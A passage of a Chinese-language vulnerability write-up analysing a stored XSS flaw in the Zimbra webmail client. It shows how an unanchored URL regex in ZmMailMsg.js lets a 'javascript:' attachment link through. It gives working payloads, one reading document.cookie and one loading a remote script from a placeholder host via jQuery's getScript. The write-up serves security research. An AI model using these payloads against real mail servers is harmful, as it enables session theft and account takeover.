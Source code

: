 可以看到只是处理了 `<>&` 三个符号，而这个值的位置在 a 标签的 href 属性中，这里可以直接使用 `javascript://` 伪协议进行一次攻击，但是直接使用老版本exp在攻击的时候发现href值并不可控，于是向上跟踪，看到 `webapps/zimbra/js/zimbraMail/mail/model/ZmMailMsg.js` 中的 `getAttachmentInfo` 函数对于获取 href 的处理

```javascript
if (attach.part) {
    useCL = attach.contentLocation && (attach.relativeCl || ZmMailMsg.URL_RE.test(attach.contentLocation));
} else {
    useCL = attach.contentLocation && true;
}
[...]
if (!useCL) {
    if (attach.node && attach.node.isOfflineUploaded) { //for offline upload attachments
        props.url = attach.node.data;
    } else {
        props.url = this.getUrlForPart(attach);
    }
}
```

由于攻击点在附件，所以 `attach.part` 一定为真，所以如果传入的CL值无法通过 `URL_RE` 的校验则会进入下方逻辑，将url的值更换为一个离线的url，这也就是为什么不可控的原因，看一下 `URL_RE` 的内容

```javascript
ZmMailMsg.URL_RE = /((telnet:)|((https?|ftp|gopher|news|file):\/\/)|(www\.[\w\.\_\-]+))[^\s\xA0\(\)\<\>\[\]\{\}\'\"]*/i;
```

而exp中修改的CL内容为 `javascript:alert(1)` 是无法匹配这个正则的，但是这里注意到这个正则并没有使用 `^` 来限定开头，所以仍然可以使用 `javascript://` 这个伪协议来做一些事情，比如

```javascript
javascript:alert(document.cookie);//http://
```

![](/img/zimbra-2022-vuls/1.png)

攻击效果如下，在点击附件后触发

![](/img/zimbra-2022-vuls/2.png)

在使用中发现，zimbra使用了jquery，所以可以直接使用jquery来进行简单的构造，可以将CL值直接写为以下payload来引入js

```javascript
javascript:$.getScript`https://host/x.js`
```

既可以绕过单双引号的过滤，也可以满足 `URL_RE` 的正则校验